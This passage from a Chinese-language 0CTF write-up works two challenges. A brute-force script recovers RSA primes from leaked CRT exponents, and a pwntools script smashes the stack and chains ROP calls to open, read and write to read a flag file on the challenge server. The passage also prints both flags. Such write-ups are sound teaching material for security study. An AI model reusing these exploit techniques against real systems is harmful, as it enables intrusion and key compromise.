 发现残余的部分含有 e、d mod(p-1)和d mod (q-1)。

这样我们就可以暴力跑出来p，q。

```
import gmpy
d_p = 0xd5a225c0d41b16699c4471570eecd3dd7759736d5781aa7710b31b4a46e441d386da1345bc97d1aa913f853f850f6d4684a80e6067fb71cf213b276c2cbaed59
d_q = 0x1338c593d3b5428ce978bed7a553527155b3d138aeac084020c0c67f54b953015e55f60a5d31386505e02e6122dad7db0a05ecb552e448b347adc2c9170fa2f3
e = 65537
for k_p in range(1, e):
    if (e*d_p - 1) % k_p == 0:
        p = (e*d_p - 1) / k_p + 1
        if gmpy.is_prime(p):
            print '[p] {}'.format(p)
            break
for k_q in range(1, e):
    if (e*d_q - 1) % k_q == 0:
        q = (e*d_q - 1) / k_q + 1
        if gmpy.is_prime(q):
            print '[q] {}'.format(q)
            break
# [p] 12883429939639100479003058518523248493821688207697138417834631218638027564562306620214863988447681300666538212918572472128732943784711527013224777474072569
# [q] 12502893634923161599824465146407069882228513776947707295476805997311776855879024002289593598657949783937041929668443115224477369136089557911464046118127387

```

直接用p，q，e算出d。则m=pow(c, d, n)。

`flag:0ctf{Keep_ca1m_and_s01ve_the_RSA_Eeeequati0n!!!}`

0x08 Warmup(Exploit)
=====

根据题目描述，这道题目只能去读取/home/warmup/flag。实际测试不能执行execve等系统调用。在栈中布置payload可以进行rop调用open，read，write来读取flag。

```
#!/usr/bin/env python2
from pwn import *
#0ctf{welcome_it_is_pwning_time}
r = remote('127.1', 4444)
#r = remote('202.120.7.207', 52608)
data = 0x080491BC
read = 0x0804811D
add_esp = 0x080481B8
flag = '/home/warmup/flag\x00'
buf = data+len(flag)
raw_input('debug')
payload = 'A'*0x20 + p32(0x080480D8) + 'AAAA' * 4
r.send(payload)
payload = 'A'*0x20 + p32(0x080480D8) + p32(add_esp) + p32(1) + p32(buf) + p32(64)
r.send(payload)
payload = 'A'*0x20 + p32(0x080480D8) + 'AAAA' * 3 + p32(0x08048135)
r.send(payload)
payload = 'B'*0x20 + p32(0x080480D8) + 'BBBB' * 4
r.send(payload)
payload = 'B'*0x20 + p32(0x080480D8) + p32(buf) + p32(64) + 'BBBB' * 2
r.send(payload)
payload = 'B'*0x20 + p32(0x080480D8) + 'BBBB' * 1 + p32(read) + p32(add_esp) + p32(3)
r.send(payload)
payload = 'C'*0x20 + p32(0x080480D8) + 'CCCC' * 4
r.send(payload * 2)
payload = 'C'*0x20 + p32(0x080480D8) + p32(add_esp) + p32(data) + p32(0) + 'CCCC'
r.send(payload)
```